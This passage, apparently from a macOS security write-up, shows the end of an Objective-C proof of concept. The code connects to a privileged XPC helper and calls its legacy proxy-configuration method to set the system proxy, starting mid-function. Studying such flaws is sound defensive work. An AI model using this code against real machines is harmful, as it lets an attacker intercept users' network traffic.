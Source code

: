 ```objectivec
        errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
        NSLog(@"OSStatus: %s", errorMsg);
    }
    
    // Convert the external form to NSData for transmission
    if (status == errAuthorizationSuccess) {
        authData = [[NSData alloc] initWithBytes:&authForm length:sizeof(authForm)];
        errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
        NSLog(@"OSStatus: %s", errorMsg);
    }
    
    // Ensure the authorization was successful
    assert(status == errAuthorizationSuccess);
     
    // Establish an XPC connection
    NSString *serviceName = XPCServiceName;
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
    NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
    [xpcConnection setRemoteObjectInterface:xpcInterface];
    [xpcConnection resume];

    // Handle errors for the XPC connection
    id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        NSLog(@"[-] Connection error");
        NSLog(@"[-] Error: %@", error);
    }];

    // Log the remote proxy and connection objects
    NSLog(@"Remote Proxy: %@", remoteProxy);
    NSLog(@"XPC Connection: %@", xpcConnection);

    // Use the legacy method to configure the proxy
    [remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
        NSLog(@"Response: %@", error);
    }];
         
    // Allow some time for the operation to complete
    [NSThread sleepForTimeInterval:10.0f];
    
    NSLog(@"Finished!");
}
```

## References

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

